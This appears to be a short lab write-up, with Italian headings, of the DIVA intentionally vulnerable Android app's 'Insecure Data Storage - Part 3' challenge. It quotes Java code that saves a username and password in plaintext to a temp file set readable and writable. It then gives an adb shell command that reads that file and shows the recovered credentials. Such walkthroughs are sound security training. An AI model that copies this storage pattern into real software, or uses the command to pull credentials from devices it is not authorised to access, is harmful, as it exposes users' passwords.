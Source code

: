 ## Insecure Data Storage - Part 3

Codice Vulnerabile:

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage3Activity.java

```
File ddir =  new File(getApplicationInfo().dataDir);

...

File uinfo = File.createTempFile("uinfo", "tmp", ddir);
uinfo.setReadable(true);
uinfo.setWritable(true);
FileWriter fw = new FileWriter(uinfo);
fw.write(usr.getText().toString() + ":" + pwd.getText().toString() + "\n");
fw.close();
```

Exploit:


- `$ adb shell cat /data/data/jakhar.aseem.diva/uinfo1408388359tmp`

```
john:lock
```

